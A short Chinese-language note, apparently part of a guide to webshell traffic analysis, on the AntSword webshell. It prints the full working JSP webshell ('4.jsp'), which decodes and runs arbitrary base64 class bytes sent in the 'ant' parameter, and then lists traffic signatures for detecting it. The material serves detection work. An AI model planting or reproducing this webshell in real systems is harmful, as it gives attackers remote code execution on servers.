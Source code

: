 ### Antsword 蚁剑

#### 基础代码

```jsp
# 4.jsp

<%!
class U extends ClassLoader{
  U(ClassLoader c){
    super(c);
  }
  public Class g(byte []b){
    return super.defineClass(b,0,b.length);
  }
}
%>
<%
String cls=request.getParameter("ant");
if(cls!=null){
  new U(this.getClass().getClassLoader()).g(new sun.misc.BASE64Decoder().decodeBuffer(cls)).newInstance().equals(pageContext);
}
%>
```

#### 流量特征

- 明文传输。
- 参数名：
	- 未经过混淆加密，参数名为 `ant`。
	- 经过混淆加密后，参数名大多为`_0x.....=`形式（下划线可替换为其他）。

![img](images/Webshell流量分析/202211091034381.png)
